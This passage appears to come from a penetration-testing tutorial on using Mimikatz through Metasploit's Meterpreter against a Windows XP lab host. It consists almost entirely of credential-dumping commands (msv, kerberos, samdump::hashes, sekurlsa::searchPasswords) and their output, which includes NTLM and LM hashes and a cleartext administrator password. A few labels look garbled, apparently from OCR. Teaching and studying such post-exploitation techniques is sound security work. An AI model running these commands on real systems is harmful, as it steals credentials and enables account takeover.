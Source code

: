 ```bash
meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

AuthID Package Domain User Password
------ ------- ------ ---- --------
0;78980 NTLM WINXP-E95CE571A1 Administrator lm{ 000000000000000000000000000000000 }, ntlm{ d6eec67681a3be111b5605849505628f }
0;996 Negotiate NT AUTHORITY NETWORK SERVICE lm{ aad3b435b51404eeaad3b435b51404ee }, ntlm{ 31d6cfe0d16ae931b73c59d7e0c089c0 }
0;997 Negotiate NT AUTHORITY LOCAL SERVICE n.s. (Credentials KO)
0;56683 NTLM n.s. (Credentials KO)
0;999 NTLM WORKGROUP WINXP-E95CE571A1$ n.s. (Credentials KO)

meterpreter > kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
=====================

AuthID Package Domain User Password
------ ------- ------ ---- --------
0;999 NTLM WORKGROUP WINXP-E95CE571A1$
0;997 Negotiate NT AUTHORITY LOCAL SERVICE
0;56683NTLM
0;996 Negotiate NT AUTHORITY NETWORK SERVICE
0;78980 NTLM WINXP-E95CE571A1 Administrator SuperSecretPassword
```

## Obtaining Information with Mimikatz Modules Don't

```bash
meterpreter > mimikatz_command -f samdump::hashes
Ordinateur: winxp-e95ce571a1
BootKey: 553d8c1349162121e2a5d3d0f571db7f

Free: 500
User: Administrator
LM:
NTLM : d6eec67681a3be111b5605849505628f

Free: 501
User: Guest
LM:
NTLM:

Free: 1000
User: HelpAssistant
LM : 6165cd1a0ebc61e470475c82cd451e14
NTLM :

rid : 1002
User : SUPPORT_388945a0
LM:
NTLM : 771ee1fce7225b28f8aec4a88aea9b6a

meterpreter > mimikatz_command -f sekurlsa::searchPasswords
**[**0] **{** Administrator ; WINXP-E95CE571A1 ; SuperSecretPassword **}**
```
